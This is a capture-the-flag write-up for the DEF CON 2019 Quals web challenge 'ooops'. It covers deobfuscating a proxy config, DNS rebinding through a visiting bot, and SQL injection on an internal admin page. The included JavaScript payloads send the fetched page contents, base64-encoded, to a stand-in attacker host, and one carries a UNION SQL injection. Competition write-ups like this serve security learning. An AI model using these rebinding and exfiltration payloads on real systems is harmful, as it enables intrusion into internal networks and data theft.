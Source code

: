 # Defcon ctf quals 2019 : ooops

**Category:** Web
**Points:** 137
**Solves:** 34
**Description:**

> On our corporate network, the only overflow is the Order of the Overflow. <br/>
> Files: <a href="https://s3.us-east-2.amazonaws.com/oooverflow-challs/b48fb18a0837e8e6840d5101ff44bb9ee5ee1d22846580487ccce756b966f6b2/info.pac">info.pac</a>


## Write-up
### 1. javascript deobfuscate.
Change `eval` to `console.log`.
```js
FindProxyForURL = function(url, host) {
	/* The only 'overflow' that employees can access is the Order of the Overflow. Log in with OnlyOne:Overflow. HTTPS support is coming soon. */ 
	if (shExpMatch(host, 'oooverflow.io')) return 'DIRECT';
	return 'PROXY ooops.quals2019.oooverflow.io:8080';
}
```
now, we can access challenge page !

### 2. DNS Rebinding.
if you send a URL, the bot access to the URL. and you look at the referer of http header, you can see that it starts from the internal IP address. (ex: 10.x.x.x)

I tried DNS rebinding because I could not access the internal page using XHR because of SOP(same origin policy).

> 1. Send my server Address ( ex: `[A.hacker.com]` == my server address )
> 2. Check the bot's connection and referer header(Internal Address).
> 3. Send js Script to bot.
> 4. Change `[A.hacker.com]`'s DNS to Internal Address. ( ex: `[A.hacker.com]` == 10.x.x.x )

- server.py
```python
from flask import Flask, request
import threading
import time

app = Flask(__name__)

@app.route("/")
def hello():
    re = request.headers['Referer']
    print re
    return open('index.html').read()

app.run(host='0.0.0.0', port=5000)
```

- index.html
```html
<script>
setTimeout(function() {
  var xhr = new XMLHttpRequest();
  xhr.open("GET", "http://[A.hacker.com]/admin/view/1");
  xhr.onreadystatechange = function () {
    if (xhr.readyState === 4) {
      var img = new Image();
      img.src = "http://[hacker.com]/res?x=" + btoa(xhr.responseText);
    }
  };
  xhr.send();
}, 10000);
</script>
```

### 3. SQL Injection.

Now We can see the internal page ! and It looks like a SQL injection !

- response html
```html
<!doctype html>
<html>
<head>
<title>OOOPS &mdash; Evaluate Requests</title>
<link href="/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous"></head>
<body>
<div class="container">
<div class="row">

<!-- Query: select rowid,* from requests where rowid=1; -->

<p>
Request #1 from b&#39;10.255.0.2&#39;.
 Automatically evaluated 
</p>

<a id="lnk" class="btn btn-secondary btn-block btn-lg" href="http://3ccdcab0.0a00061a.rbndr.us:5000">
Visit http://3ccdcab0.0a00061a.rbndr.us:5000
</a>

</div>
</div>
</body>
</html>
```

- index.html
```html
<script>
setTimeout(function() {
  var xhr = new XMLHttpRequest();
  xhr.open("GET", "http://[A.hacker.com]/admin/view/-1%20union%20select%201,2,3,group_concat(flag),5%20from%20flag");
  xhr.onreadystatechange = function () {
    if (xhr.readyState === 4) {
      var img = new Image();
      img.src = "http://[hacker.com]/res?x=" + btoa(xhr.responseText);
    }
  };
  xhr.send();
}, 10000);
</script>
```

<img src='flag.png'>

### FLAG
> OOO{C0rporateIns3curity}
